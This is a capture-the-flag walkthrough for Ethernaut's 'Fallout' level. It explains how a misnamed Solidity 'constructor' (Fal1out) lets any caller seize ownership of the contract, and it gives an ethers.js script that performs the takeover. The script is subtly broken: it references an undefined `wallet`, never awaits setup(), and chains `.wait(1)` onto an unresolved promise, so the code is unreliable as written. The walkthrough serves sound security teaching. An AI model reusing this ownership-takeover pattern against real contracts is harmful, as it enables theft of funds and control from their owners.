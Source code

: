 ```yaml
---
description: In Ethernaut's Fallout, we learn a quick lesson about constructor syntax.
---
```


# 2 - Fallout

To complete [this level](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5) we need to claim ownership of its `Fallout` contract.

### Hints

<details>

<summary>Hint One</summary>

The only function in the contract that assigns a value to `owner` is its "constructor", `Fal1out`. Is this function really what it seems?&#x20;

</details>

### Full Walkthrough

#### Claiming Ownership

The `owner` of this contract is set in its "constructor" function `Fal1out` and not reassigned elsewhere in the contract. Note that despite being labelled the constructor in the comment above, this function is not actually the valid constructor for this contract and will not run when it is deployed. If it were a valid constructor, there would be no way for us to take ownership of the contract after it was deployed by another address.

```solidity
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

In some versions of Solidity prior to 0.4.21, a constructor could be defined by naming a function the same name as its contract. This contract, however, is being compiled as version 0.6.0 or higher, and therefor this "constructor" will not run when the contract is deployed.

```solidity
pragma solidity ^0.6.0;
```

Additionally, it is worth noting that the function name does not actually match the contract's name as the function's second "l" is actually the number 1.

Any address that calls the `Fal1out` function will become the contract's owner.

{% hint style="info" %}
**Transactions and calldata**

Coming soon...
{% endhint %}

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize the basic Ethers objects needed to interact with the blockchain and contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await wallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get the basic Ethers objects needed to interact with the blockchain and contract
  const { playerWallet, contract: falloutContract } = setup('Fallout')

  // Check Fallout contract's owner
  console.log(
    `Fallout contract owner is initially: ${await falloutContract.owner()}`
  )

  // Call Fallout contract's 'Fal1out' function
  console.log("Calling Fallout contract's 'Fal1out' function...")
  await falloutContract.Fal1out().wait(1)

  // Check Fallout contract's new owner
  const falloutContractOwner = await falloutContract.owner()
  console.log(`Contract owner is now: ${falloutContractOwner}`)
  console.log(
    `Contract owner is player: ${falloutContractOwner === playerWallet.address}`
  )
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Some older versions of Solidity allowed for **constructors** to be defined as functions with the **same name as the contract** itself.
* Even a single, simple **syntax error** can become a **security disaster**.

